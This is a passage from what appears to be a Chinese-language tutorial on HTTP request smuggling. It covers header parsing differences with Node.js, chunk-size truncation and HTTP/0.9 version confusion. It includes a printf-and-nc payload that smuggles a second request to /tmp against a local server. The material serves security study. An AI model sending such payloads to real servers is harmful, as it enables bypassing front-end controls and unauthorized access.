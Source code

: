 Front 服务器就会认为`Dummy: Header\rZTransfer-Encoding: chunked\r\n`是一个 header，使用 CL 头解析，会认为这是一个完整的请求，而 Node.js 会认为`\rZ`是一个换行，按照 TE 优先于 CL 的解析规则，认为这是两个请求，就产生了解析差异。

### Size Issue

还可以利用一些编码块长度产生解析差异，例如：

```plain
printf 'GET / HTTP/1.1\r\n'\
'Host:localhost\r\n'\
'Transfer-Encoding: chunked\r\n'\
'Dummy:Header\r\n'\
'\r\n'\
'0000000000000000000000000000042\r\n'\
'\r\n'\
'GET /tmp/ HTTP/1.1\r\n'\
'Host:localhost\r\n'\
'Transfer-Encoding: chunked\r\n'\
'\r\n'\
'0\r\n'\
'\r\n'\
| nc -q3 127.0.0.1 8080
```

某些中间件在解析块大小的时候，会将长度块大小长度进行截断，比如这里表现为只取`'0000000000000000000000000000042`为`00000000000000000`，这样就会认为这是两个请求了，第一个请求的块大小为 0，第二个就会请求`/tmp`，就导致了 HTTP Smuggling。

### HTTP Version

这个主要是由于 HTTP/0.9 引起的问题，我们先来看看 HTTP 几个版本的 example：

HTTP v1.1

```plain
GET /foo HTTP/1.1\r\n
Host: example.com\r\n
```

HTTP v1.0

```plain
GET /foo HTTP/1.0\r\n
\r\n
```

HTTP v0.9

```plain
GET /foo\r\n
```

并且 HTTP/0.9 请求包与响应包是都没有 headers 的概念的，也就是说如下：

